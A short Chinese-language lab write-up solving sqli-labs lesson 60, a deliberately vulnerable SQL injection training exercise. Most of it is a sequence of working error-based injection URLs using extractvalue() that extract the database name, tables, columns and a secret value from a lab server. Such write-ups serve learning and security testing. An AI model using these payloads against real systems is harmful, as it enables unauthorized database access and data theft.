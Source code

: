 ```yaml
---
title: sqli-labs lession-60 GET-双注入-变化3-仅允许5次请求
date: 2018-11-29 10:02:28
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-60 GET-双注入-变化3-仅允许5次请求

---

## 手注

对常见的`'")`进行测试

`http://10.60.17.35:8082/Less-60/?id=1"+or+1=2%23`

发现报错

最终测试出闭合`")`

`http://10.60.17.35:8082/Less-60/?id=1")+and+extractvalue(null,concat(0x7e,database(),0x7e))%23`

![001](/img/sql/Lesson-60/001.png)

`http://10.60.17.35:8082/Less-60/?id=1")+and+extractvalue(null,concat(0x7e,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),0x7e))%23`

![002](/img/sql/Lesson-60/002.png)

`http://10.60.17.35:8082/Less-60/?id=1")+and+extractvalue(null,concat(0x7e,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='j5429wlony'),0x7e))%23`

![003](/img/sql/Lesson-60/003.png)

`http://10.60.17.35:8082/Less-60/?id=1")+and+extractvalue(null,concat(0x7e,(select+GROUP_CONCAT(secret_RPNY)from challenges.j5429wlony),0x7e))%23`

![004](/img/sql/Lesson-60/004.png)

提交

![005](/img/sql/Lesson-60/005.png)